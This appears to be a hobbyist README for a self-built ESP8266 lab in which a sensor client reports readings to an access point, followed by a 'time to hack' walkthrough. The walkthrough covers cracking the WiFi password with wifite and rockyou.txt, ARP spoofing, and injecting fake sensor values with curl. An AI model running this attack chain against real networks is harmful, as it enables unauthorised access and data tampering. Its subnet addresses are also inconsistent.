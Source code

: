 ### rockyou.txt index 2001 as password

Demo : Brute-force attack 
To :  Find out wifi password

***

index 2001
   
    sed -n 2001p rockyou.txt 

output
      
    blessed1
    
set wifi ap ssid and password, ESPap is the target attack ap essid

    /* Set these to your desired credentials. */
    const char *ssid = "ESPap";
    const char *password = "kupal";

***

### display and server serial output

    screen /dev/ttyUSB0 115200
    
    Configuring access point...AP IP address: 192.168.4.1

	
### the wifi client to send dht11 to server

    screen /dev/ttyUSB1 115200
    
    Connecting to ESPap
    .........
    WiFi connected
    IP address: 
    192.168.4.2
    =================================
    Sample DHT11...
    Sample OK: 30 *C, 13 %
    connecting to 192.168.4.1
    Requesting URL: /dht11?temp=30&humi=13
    HTTP/1.1 200 OK
    Content-Type: text/html
    Connection: close
    Content-Length: 25
    Connection: close
    Access-Control-Allow-Origin: *

    {"temp":"30","humi":"13"}
    closing connection
    
### time to hack

### find out the ap..

    
    airmon-ng start wlan0   
    airodump-ng wlan0mon
    
### crack the ap password

     # use aircrack-ng as your like
     wifite -i wlan0 -e ESPap --dict rockyou.txt --crack

### nmap scan device

     nmap -v -sn 192.168.2.0/24

### connect to ESPap by cracked password

     turn the orignal package route to a invalid host or our host..

     arpspoof 192.168.2.2 192.168.2.255
     
### use curl send fake temp and humi value

   
    curl -v http://192.168.4.1/dht11?temp=99&humi=99

output

	*   Trying 192.168.4.1...
	* TCP_NODELAY set
	* Connected to 192.168.4.1 (192.168.4.1) port 80 (#0)
	> GET /dht11?temp=12humi=33 HTTP/1.1
	> Host: 192.168.4.1
	> User-Agent: curl/7.52.1
	> Accept: */*
	> 
	< HTTP/1.1 200 OK
	< Content-Type: text/html
	< Connection: close
	< Content-Length: 32
	< Connection: close
	< Access-Control-Allow-Origin: *
	< 
	* Curl_http_done: called premature == 0
	* Closing connection 0
	{"temp":"99","humi":"99"}
    

